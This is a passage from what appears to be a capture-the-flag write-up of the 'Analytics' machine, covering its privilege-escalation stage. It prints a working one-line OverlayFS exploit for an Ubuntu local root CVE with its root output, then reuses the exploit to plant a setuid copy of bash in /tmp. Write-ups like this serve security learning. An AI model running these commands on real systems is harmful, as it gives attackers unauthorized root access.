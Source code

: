 ![LinPEAS](/assets/images/2024/01/Analytics/LinPEAS.png "LinPEAS")

After a long time, I searched for exploits in the Ubuntu version. I quickly found a [CVE for it](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/). It used OverlayFS to mount a file system and run Python with the setuid capability.

I tried the POC.

```bash
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
```

It worked, so I used the same technique to copy `bash` and make it `suid`.

```bash
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /tmp/; chmod u+s /tmp/bash")'
mkdir: cannot create directory ‘l’: File exists
mkdir: cannot create directory ‘u’: File exists
mkdir: cannot create directory ‘w’: File exists
mkdir: cannot create directory ‘m’: File exists

metalytics@analytics:~$ ls -ltrh /tmp
total 1.4M
drwx------ 3 root       root       4.0K Jan 20 15:36 systemd-private-b0ef0bbaa3354ec2815aa91746b913f4-systemd-timesyncd.service-ZXXixc
drwx------ 3 root       root       4.0K Jan 20 15:36 systemd-private-b0ef0bbaa3354ec2815aa91746b913f4-systemd-resolved.service-NfUc7h
drwx------ 3 root       root       4.0K Jan 20 15:36 systemd-private-b0ef0bbaa3354ec2815aa91746b913f4-systemd-logind.service-9GMRMw
drwx------ 3 root       root       4.0K Jan 20 15:36 systemd-private-b0ef0bbaa3354ec2815aa91746b913f4-ModemManager.service-Y02l6g
drwx------ 2 root       root       4.0K Jan 20 15:37 vmware-root_427-1849560532
```